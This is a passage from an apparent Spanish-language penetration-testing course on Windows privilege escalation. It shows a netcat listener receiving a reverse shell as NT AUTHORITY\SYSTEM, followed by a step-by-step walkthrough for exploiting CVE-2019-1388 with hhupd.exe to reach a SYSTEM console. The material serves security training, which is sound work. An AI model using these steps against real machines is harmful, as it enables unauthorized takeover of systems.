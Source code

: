 Si todo sale según lo planeado, recibiremos una conexión de vuelta como `NT AUTHORITY\SYSTEM`.

```r
nc -lnvp 9443

listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.33] 49720
Microsoft Windows [Version 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
nt authority\system
```

Este problema se puede mitigar deshabilitando las dos configuraciones de Local Group Policy mencionadas anteriormente.

---

## CVE-2019-1388

[CVE-2019-1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388) fue una vulnerabilidad de escalada de privilegios en el Windows Certificate Dialog, que no aplicaba correctamente los privilegios de usuario. El problema estaba en el mecanismo de UAC, que presentaba una opción para mostrar información sobre el certificado de un ejecutable, abriendo el Windows certificate dialog cuando un usuario hacía clic en el enlace. El campo `Issued By` en la pestaña General se renderiza como un hyperlink si el binary está firmado con un certificado que tiene Object Identifier (OID) `1.3.6.1.4.1.311.2.1.10`. Este valor de OID se identifica en el [wintrust.h](https://docs.microsoft.com/en-us/windows/win32/api/wintrust/) header como [SPC_SP_AGENCY_INFO_OBJID](https://docs.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptformatobject) que es el campo `SpcSpAgencyInfo` en la pestaña de detalles del certificate dialog. Si está presente, un hyperlink incluido en el campo se renderizará en la pestaña General. Esta vulnerabilidad se puede explotar fácilmente usando un ejecutable antiguo firmado por Microsoft ([hhupd.exe](https://packetstormsecurity.com/files/14437/hhupd.exe.html)) que contiene un certificado con el campo `SpcSpAgencyInfo` poblado con un hyperlink.

Cuando hacemos clic en el hyperlink, se lanzará una ventana del navegador ejecutándose como `NT AUTHORITY\SYSTEM`. Una vez abierto el navegador, es posible "salir" de él aprovechando la opción del menú `View page source` para lanzar una consola `cmd.exe` o `PowerShell.exe` como SYSTEM.

Vamos a revisar la vulnerabilidad en práctica.

Primero, haz clic derecho en el ejecutable `hhupd.exe` y selecciona `Run as administrator` desde el menú.

![image](https://academy.hackthebox.com/storage/modules/67/hhupd.png)

Luego, haz clic en `Show information about the publisher's certificate` para abrir el certificate dialog. Aquí podemos ver que el campo `SpcSpAgencyInfo` está poblado en la pestaña de Detalles.

![image](https://academy.hackthebox.com/storage/modules/67/hhupd_details.png)

Luego, volvemos a la pestaña General y vemos que el campo `Issued by` está poblado con un hyperlink. Haz clic en él y luego haz clic en `OK`, y el certificate dialog se cerrará y se lanzará una ventana del navegador.

